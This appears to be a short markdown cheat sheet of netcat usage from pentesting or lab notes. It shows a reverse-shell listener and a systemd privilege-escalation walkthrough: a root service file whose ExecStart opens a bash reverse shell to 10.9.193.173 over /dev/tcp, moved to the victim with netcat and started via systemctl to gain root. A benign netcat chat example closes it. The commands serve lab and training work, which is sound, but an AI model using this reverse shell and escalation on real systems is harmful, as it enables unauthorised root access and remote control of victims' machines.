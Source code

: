 # Netcat

Install ```sudo apt install ncat```

## Example 1

Start netcat listening on e.g. port 1234

```sh
nc -lvnp 1234
```

Once payload is triggered netcat will open a reverse shell:

![netcat_injecttest](_netcat_injecttest.jpg)

## Example 2

Create 0xfab1.service in /temp/

```txt
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.193.173/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

- move file to /temp/ of www-data from attacker box:
 -on victim: ```nc -vl 44444 > fab.service```
- on attacker:  ```nc -n TargetIP 44444 < fab.service```
- on attacker now start a new netcat session on 9999: ```nc -lvnp 9999```

Now use systemctl on victim machine and we should be root from the attacker box:

```sh
/bin/systemctl enable /tmp/fab.service
/bin/systemctl start fab
```

## Chat between two users

User 1 (with IP 10.9.182.239) runs this command:

```sh
nc -l -p 3303
```

Other chat user then runs this command:

```sh
nc 10.9.182.239 3303
```
